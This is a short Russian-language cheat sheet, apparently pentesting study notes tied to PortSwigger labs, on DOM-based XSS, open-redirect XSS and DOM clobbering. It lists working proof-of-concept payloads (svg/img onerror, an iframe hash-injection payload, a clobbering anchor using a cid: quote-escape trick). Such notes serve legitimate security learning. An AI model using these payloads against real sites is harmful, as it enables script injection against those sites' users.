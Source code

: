 # DOM-Based XSS
1. Проверить закрытие тегов: `"><svg onload=alert(1)>`
2. Проверить input-ы: `<img src=1 onerror=alert(1)>`
3. Проверить qvery параметры: `?name='<img src=1 onerror=alert(1)>//`
4. Приложение может ожидать от пользователя ввод после `#`, тогда можно использовать exploit сервер с телом: `<iframe src="https://<site>/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>`
5. Разработчик мог не обработать пользовательский ввод циклом: `<><><img src=1 onerror=alert(1)>`
## Open-redirection XSS

1. Может существовать возможность перенаправить пользователя на свой уязвимый ресурс, допусти через query параметр: `../?url=<my.site>`
## DOM clobbering
https://portswigger.net/web-security/dom-based/dom-clobbering
Если несколько html тегов имеют одинаковые атрибуты, то в window создаётся ключ-коллекция с этим атрибутом. Значит если мы создадим тег с атрибутом, который уже используется в скриптах самим приложением, то сможем проэксплуатировать уязвимость:
пусть существует js функционал:
```javascript 
...
let defaultAvatar = window.defaultAvatar || {avatar: '/resources/images/avatarDefault.svg'}
let avatarImgHTML = '<img class="avatar" src="' + (comment.avatar ? escapeHTML(comment.avatar) : defaultAvatar.avatar) + '">';
...
```
тогда можно создать из пользовательского ввода следующий тег, который заменит собой переменную **`defaultAvatar`**:
```html
<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">
```
где **cid** - спeцсимвол для частного случая, когда можно избежать кодировки ", который оставил разработчик. 
